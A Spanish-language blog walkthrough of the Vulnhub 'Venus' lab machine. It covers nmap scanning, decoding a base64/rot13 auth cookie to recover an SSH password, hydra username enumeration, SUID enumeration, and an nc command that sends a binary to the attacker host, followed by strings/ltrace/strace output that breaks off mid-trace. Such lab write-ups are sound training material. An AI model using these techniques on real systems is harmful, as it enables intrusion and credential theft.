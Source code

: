 ```yaml
---
title: "Vulnhub #3: Venus"
description: Pentesting a máquina Venus en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```

# Venus

https://www.vulnhub.com/entry/the-planets-venus,705/

## 1. Enumeración

IP Atacante: 10.0.12.25
IP Victima: 10.0.12.26

## 2. Servicios

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.5 (protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.9.5
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=2/20%Time=67B74D38%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,363,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2020\x20Feb\x
SF:202025\x2015:41:44\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9
SF:\.5\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:
SF:\x20DENY\r\nContent-Length:\x20626\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nReferrer-Policy:\x20same-origin\r\n\r\n<html>\n<head>\n<title>Venu
SF:s\x20Monitoring\x20Login</title>\n<style>\n\.aligncenter\x20{\n\x20\x20
SF:\x20\x20text-align:\x20center;\n}\nlabel\x20{\n\x20\x20\x20\x20display:
SF:block;\n\x20\x20\x20\x20position:relative;\n}\n</style>\n</head>\n<body
SF:>\n<h1>\x20Venus\x20Monitoring\x20Login\x20</h1>\n<h2>Please\x20login:\
SF:x20</h2>\nCredentials\x20guest:guest\x20can\x20be\x20used\x20to\x20acce
SF:ss\x20the\x20guest\x20account\.\n<form\x20action=\"/\"\x20method=\"post
SF:\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"usernam
SF:e\">Username:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20typ
SF:e=\"text\"\x20name=\"username\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x
SF:20\x20<label\x20for=\"password\">Password:</label>\n\x20\x20\x20\x20<in
SF:put\x20id=\"username\"\x20type=\"text\"\x20name=\"password\">\n\x20\x20
SF:\x20\x20<br\x20/>\n\x20\x20\x20\x20<input\x20type=\"submit\"\x20value=\
SF:"Login\">\n</form>\n\n</body>\n</html>\n")%r(HTTPOptions,363,"HTTP/1\.1
SF:\x20200\x20OK\r\nDate:\x20Thu,\x2020\x20Feb\x202025\x2015:41:44\x20GMT\
SF:r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9\.5\r\nContent-Type:\x20te
SF:xt/html;\x20charset=utf-8\r\nX-Frame-Options:\x20DENY\r\nContent-Length
SF::\x20626\r\nX-Content-Type-Options:\x20nosniff\r\nReferrer-Policy:\x20s
SF:ame-origin\r\n\r\n<html>\n<head>\n<title>Venus\x20Monitoring\x20Login</
SF:title>\n<style>\n\.aligncenter\x20{\n\x20\x20\x20\x20text-align:\x20cen
SF:ter;\n}\nlabel\x20{\n\x20\x20\x20\x20display:block;\n\x20\x20\x20\x20po
SF:sition:relative;\n}\n</style>\n</head>\n<body>\n<h1>\x20Venus\x20Monito
SF:ring\x20Login\x20</h1>\n<h2>Please\x20login:\x20</h2>\nCredentials\x20g
SF:uest:guest\x20can\x20be\x20used\x20to\x20access\x20the\x20guest\x20acco
SF:unt\.\n<form\x20action=\"/\"\x20method=\"post\">\n\x20\x20\x20\x20<br\x
SF:20/>\n\x20\x20\x20\x20<label\x20for=\"username\">Username:</label>\n\x2
SF:0\x20\x20\x20<input\x20id=\"username\"\x20type=\"text\"\x20name=\"usern
SF:ame\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"pass
SF:word\">Password:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20
SF:type=\"text\"\x20name=\"password\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x2
SF:0\x20\x20<input\x20type=\"submit\"\x20value=\"Login\">\n</form>\n\n</bo
SF:dy>\n</html>\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.10 seconds

## 3. Enumeración Web

Tenemos una pagina principal que nos pide credenciales para acceder, podemos usar `guest:guest`.
Dentro no hay gran cosa, pero obtenemos una cookie en b64 `auth:""Z3Vlc3Q6dGhyZmc=""` si lo descodificamos obtenemos `guest:thrfg`, sabiendo que las credenciales son `guest:guest` podemos asumir que la cookie es `guest:guest`, solo que cifrada usando `rot13`.

Lanzamos `dirb http://10.0.12.26:8080/` y encontramos la ruta `/admin` que nos lleva a un panel de login.

Para conseguir acceder al panel de admin, podemos usar `guest:guest` y en la cookie `auth` poner `admin:admin` cifrado en rot13.

Intentamos crear una cookie con el valor adecuado:

```
admin:admin > admin:nqzva > YWRtaW46bnF6dmE=
```

Pero no funciona :(

Deberemos buscar otra forma de acceder al panel de admin.

Vamos a intentar sacar usuarios con `hydra` usando la password por defecto `guest` y el mensaje de error que inyecta en la página cuando el usuario no es correcto, `Invalid username.`.

```
hydra -L ~/Descargas/usernames.txt -p guest -s 8080 10.0.12.26 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
```

Encontramos los siguientes usuarios:

```
[8080][http-post-form] host: 10.0.12.26   login: guest   password: guest
[8080][http-post-form] host: 10.0.12.26   login: magellan   password: guest
[8080][http-post-form] host: 10.0.12.26   login: venus   password: guest
```

Iniciamos sesion con `magellan:guest` y miramos su token: `"bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ=="` que descodificamos a `magellan:irahfvnatrbybtl1989`, tras pasar por rot13 tendriamos: `magellan:venusiangeology1989`.

Intentamos iniciar sesion ssh con las credenciales:

```
datadiego@~ ssh magellan@10.0.12.26 -p 22
magellan@10.0.12.26's password: 
Last failed login: Fri Feb 21 15:59:31 GMT 2025 from 10.0.12.25 on ssh:notty
There were 2 failed login attempts since the last successful login.
[magellan@venus ~]$ whoami
magellan
```

## 4. Escalada de privilegios

Volvemos a usar el comando de la anterior maquina de la serie `find / -perm -u=s -type f 2>/dev/null`

Encontramos varios binarios con permisos de setuid:

```
[magellan@venus ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/cockpit-session
```

Vamos a intentar usar `pkexec` para ejecutar comandos como root.

```bash
[magellan@venus ~]$ pkexec 
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ====
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: root
Password: 
polkit-agent-helper-1: pam_authenticate failed: Authentication failure
==== AUTHENTICATION FAILED ====
```

No podemos usar `pkexec` para ejecutar comandos como root.

Del resto de binarios, `cockpit-session` llama la atención, pero no podemos ejecutarlo, aun nos queda `polkit-agent-helper-1`.

```bash
[magellan@venus ~]$ /usr/lib/polkit-1/polkit-agent-helper-1
polkit-agent-helper-1: wrong number of arguments. This incident has been logged.
FAILURE
[magellan@venus ~]$ 
```

Parece que espera argumentos, si mandamos 1234, la consola se queda colgada.

Vamos a descargar el binario para analizarlo en nuestra maquina con nc:

En la maquina atacante:

```bash
datadiego@~ nc -lvp 8888 > polkit-agent-helper-1
Listening on 0.0.0.0 8888
```

En la maquina victima:

```
[magellan@venus polkit-1]$ cat polkit-agent-helper-1 | nc 10.0.12.25 8888
```

## Analisis del binario

### strings

```
/lib64/ld-linux-x86-64.so.2
&*iE
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
__cxa_finalize
__libc_start_main
g_strdup
strlen
stdout
__fprintf_chk
g_strescape
fputs
fputc
fflush
g_free
calloc
stdin
fgets
memset
__stack_chk_fail
__getdelim
g_strchomp
feof
perror
polkit_authority_get_sync
polkit_unix_user_new_for_name
polkit_authority_authentication_agent_response_sync
g_object_unref
g_printerr
g_error_free
stderr
fileno
fdatasync
usleep
pam_end
fwrite
setenv
geteuid
openlog
getuid
isatty
pam_start
pam_set_item
pam_authenticate
pam_acct_mgmt
pam_get_item
strcmp
__syslog_chk
g_strdup_printf
pam_strerror
libpam.so.0
libpolkit-gobject-1.so.0
libgobject-2.0.so.0
libglib-2.0.so.0
libc.so.6
__libc_csu_fini
flush_and_wait
_IO_stdin_used
__data_start
send_dbus_message
__libc_csu_init
__bss_start
read_cookie
_edata
_polkit_clearenv
LIBPAM_1.0
GLIBC_2.4
GLIBC_2.3.4
GLIBC_2.2.5
AVAUA
D$(1
toE1
D$(dH+
[]A\A]A^
u+UH
ATUSH
[]A\A]
AWHc
AVAUATI
[]A\A]A^A_
AUATI
[]A\A]A^
[]A\A]A^A_
PAM_PROMPT_ECHO_OFF
PAM_PROMPT_ECHO_ON
PAM_ERROR_MSG
PAM_TEXT_INFO
getline
Error getting authority: %s
/usr/sbin:/usr/bin:/sbin:/bin
PATH
polkit-agent-helper-1
polkit-1
SUCCESS
FAILURE
Error constructing identity: %s
polkit-agent-helper-1: error response to PolicyKit daemon: %s
polkit-agent-helper-1: needs to be setuid root
Incorrect permissions on %s (needs to be setuid root)
inappropriate use of helper, wrong number of arguments [uid=%d]
polkit-agent-helper-1: wrong number of arguments. This incident has been logged.
inappropriate use of helper, stdin is a tty [uid=%d]
polkit-agent-helper-1: inappropriate use of helper, stdin is a tty. This incident has been logged.
polkit-agent-helper-1: pam_start failed: %s
polkit-agent-helper-1: pam_set_item failed: %s
polkit-agent-helper-1: pam_authenticate failed: %s
polkit-agent-helper-1: pam_acct_mgmt failed: %s
polkit-agent-helper-1: pam_get_item failed: %s
polkit-agent-helper-1: Tried to auth user '%s' but we got auth for user '%s' instead
:*3$"
3g958
annobin gcc 11.0.0 20210116
running gcc 11.0.0 20210123
GA*FORTIFY
GA+GLIBCXX_ASSERTIONS
GA*GOW
GA*cf_protection
GA+omit_frame_pointer
GA+stack_clash
GA!stack_realign
GA*FORTIFY
GA+GLIBCXX_ASSERTIONS
GA*cf_protection
polkit-agent-helper-1-0.117-3.fc34.x86_64.debug
7zXZ
6F;$m
++iyk
A'_	!
hJ	B
x%Xq
tUQw\^U
sH}cHXqY
>rvH
Jm%itu
P4{@
{4$>Vw!
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.data.rel.ro
.dynamic
.got
.data
.bss
.gnu.build.attributes
.gnu_debuglink
.gnu_debugdata
```

### ltrace

```bash
datadiego@~ chmod +x polkit-agent-helper-1 
datadiego@~ ltrace ./polkit-agent-helper-1 
clearenv(1, 0x7fffb8736d98, 0x7fffb8736da8, 0) = 0
setenv("PATH", "/usr/sbin:/usr/bin:/sbin:/bin", 1) = 0
geteuid()                                      = 1000
fwrite("polkit-agent-helper-1: needs to "..., 1, 47, 0x745524e044e0polkit-agent-helper-1: needs to be setuid root
) = 47
g_strdup_printf(0x5f68f31c9160, 0x7fffb8738f63, 0, 47) = 0x5f690008c560
g_strdup(0x5f690008c560, 0x5f690008c560, 0, 0x5f690008c560) = 0x5f690008ef90
strlen("Incorrect permissions on ./polki"...)  = 74
__fprintf_chk(0x745524e045c0, 1, 0x5f68f31c9004, 0x5f68f31c902f) = 14
g_strescape(0x5f690008ef90, 0, 0, 0)           = 0x5f690008eff0
fputs("Incorrect permissions on ./polki"..., 0x745524e045c0) = 1
fputc('\n', 0x745524e045c0PAM_ERROR_MSG Incorrect permissions on ./polkit-agent-helper-1 (needs to be setuid root)
)                    = 10
fflush(0x745524e045c0)                         = 0
g_free(0x5f690008eff0, 0, 0x5f6900084530, 0x745524d1c574) = 18
g_free(0x5f690008ef90, 0x5f690008efe0, 0x5f690008e, 1) = 4
g_free(0x5f690008c560, 0x5f690008ef80, 0x5f690008e, 1) = 4
free(0)                                        = <void>
fwrite("FAILURE\n", 1, 8, 0x745524e045c0FAILURE
)      = 8
fflush(0x745524e045c0)                         = 0
fflush(0x745524e044e0)                         = 0
fileno(0x745524e045c0)                         = 1
fdatasync(1, 0, 0x745524e04563, 0)             = 0xffffffff
fileno(0x745524e044e0)                         = 2
fdatasync(2, 0, -120, 0x745524d1e754)          = 0xffffffff
usleep(100000)                                 = <void>
__cxa_finalize(0x5f68f31cac08, 26, 0, 0x7fffb8736ae0) = 1
+++ exited (status 1) +++
```

### strace

```bash
datadiego@~ strace ./polkit-agent-helper-1 | toclip 
execve("./polkit-agent-helper-1", ["./polkit-agent-helper-1"], 0x7fff72efad30 /* 52 vars */) = 0
brk(NULL)                               = 0x55c0819fe000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93fbe000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=88059, ...}) = 0
mmap(NULL, 88059, PROT_READ, MAP_PRIVATE, 3, 0) = 0x706f93fa8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpam.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=67888, ...}) = 0
mmap(NULL, 65552, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f97000
mmap(0x706f93f9a000, 36864, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93f9a000
mmap(0x706f93fa3000, 12288, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xc000) = 0x706f93fa3000
mmap(0x706f93fa6000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f93fa6000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpolkit-gobject-1.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=125000, ...}) = 0
mmap(NULL, 127360, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f77000
mmap(0x706f93f7e000, 61440, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x7000) = 0x706f93f7e000
mmap(0x706f93f8d000, 32768, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16000) = 0x706f93f8d000
mmap(0x706f93f95000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1d000) = 0x706f93f95000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgobject-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=399752, ...}) = 0
mmap(NULL, 404536, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f14000
mmap(0x706f93f23000, 225280, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f93f23000
mmap(0x706f93f5a000, 102400, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x46000) = 0x706f93f5a000
mmap(0x706f93f73000, 16384, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5e000) = 0x706f93f73000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libglib-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1343056, ...}) = 0
mmap(NULL, 1343952, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93dcb000
mmap(0x706f93de9000, 655360, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e000) = 0x706f93de9000
mmap(0x706f93e89000, 557056, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xbe000) = 0x706f93e89000
mmap(0x706f93f11000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x146000) = 0x706f93f11000
mmap(0x706f93f13000, 464, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93f13000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\220\243\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
fstat(3, {st_mode=S_IFREG|0755, st_size=2125328, ...}) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 2170256, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93a00000
mmap(0x706f93a28000, 1605632, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x28000) = 0x706f93a28000
mmap(0x706f93bb0000, 323584, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0x706f93bb0000
mmap(0x706f93bff000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1fe000) = 0x706f93bff000
mmap(0x706f93c05000, 52624, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93c05000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libaudit.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=133200, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93dc9000
mmap(NULL, 184496, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93d9b000
mmap(0x706f93d9e000, 32768, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93d9e000
mmap(0x706f93da6000, 86016, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb000) = 0x706f93da6000
mmap(0x706f93dbb000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1f000) = 0x706f93dbb000
mmap(0x706f93dbd000, 45232, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93dbd000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgio-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1887632, ...}) = 0
mmap(NULL, 1897376, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93830000
mmap(0x706f93869000, 1142784, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x39000) = 0x706f93869000
mmap(0x706f93980000, 479232, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x150000) = 0x706f93980000
mmap(0x706f939f5000, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1c4000) = 0x706f939f5000
mmap(0x706f939fe000, 5024, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f939fe000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libsystemd.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=910592, ...}) = 0
mmap(NULL, 915016, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93cbb000
mmap(0x706f93cd1000, 585728, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16000) = 0x706f93cd1000
mmap(0x706f93d60000, 188416, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xa5000) = 0x706f93d60000
mmap(0x706f93d8e000, 49152, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xd2000) = 0x706f93d8e000
mmap(0x706f93d9a000, 1608, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93d9a000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libffi.so.8", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=47672, ...}) = 0
mmap(NULL, 46608, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93caf000
mmap(0x706f93cb1000, 28672, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93cb1000
mmap(0x706f93cb8000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f93cb8000
mmap(0x706f93cb9000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xa000) = 0x706f93cb9000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=952616, ...}) = 0
mmap(NULL, 950296, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93747000
mmap(0x706f93757000, 520192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x10000) = 0x706f93757000
mmap(0x706f937d6000, 360448, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x8f000) = 0x706f937d6000
mmap(0x706f9382e000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xe7000) = 0x706f9382e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpcre2-8.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=625344, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93cad000
mmap(NULL, 627472, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93c13000
mmap(0x706f93c15000, 450560, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93c15000
mmap(0x706f93c83000, 163840, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x70000) = 0x706f93c83000
mmap(0x706f93cab000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x97000) = 0x706f93cab000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcap-ng.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=26848, ...}) = 0
mmap(NULL, 28720, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9373f000
mmap(0x706f93741000, 12288, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93741000
mmap(0x706f93744000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5000) = 0x706f93744000
mmap(0x706f93745000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5000) = 0x706f93745000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgmodule-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=22736, ...}) = 0
mmap(NULL, 24712, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93738000
mmap(0x706f9373a000, 8192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f9373a000
mmap(0x706f9373c000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9373c000
mmap(0x706f9373d000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9373d000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libz.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=113000, ...}) = 0
mmap(NULL, 110744, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9371c000
mmap(0x706f9371e000, 73728, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f9371e000
mmap(0x706f93730000, 24576, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x14000) = 0x706f93730000
mmap(0x706f93736000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a000) = 0x706f93736000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libmount.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=309960, ...}) = 0
